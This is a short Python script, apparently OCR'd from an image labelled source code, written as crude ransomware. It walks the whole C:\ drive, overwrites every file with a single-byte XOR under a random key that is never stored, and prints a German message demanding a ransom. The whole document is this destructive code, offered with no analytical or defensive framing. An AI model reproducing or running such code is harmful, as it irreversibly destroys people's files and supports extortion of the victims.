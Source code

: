 

```python

import os

import random



def encrypt_file(file_path):

    key = random.randint(1, 255)

    with open(file_path, 'rb') as file:

        data = bytearray(file.read())

    encrypted_data = bytearray()

    for byte in data:

        encrypted_byte = byte ^ key

        encrypted_data.append(encrypted_byte)

    with open(file_path, 'wb') as file:

        file.write(encrypted_data)



def encrypt_directory(directory_path):

    for root, dirs, files in os.walk(directory_path):

        for file in files:

            file_path = os.path.join(root, file)

            encrypt_file(file_path)



def main():

    directory_path = 'C:\\'

    encrypt_directory(directory_path)

    print('Dein gesamter PC wurde erfolgreich verschlüsselt! Bezahle das Lösegeld, um deine Daten zurückzubekommen! 💸💻🔒')



if __name__ == '__main__':

    main()

```
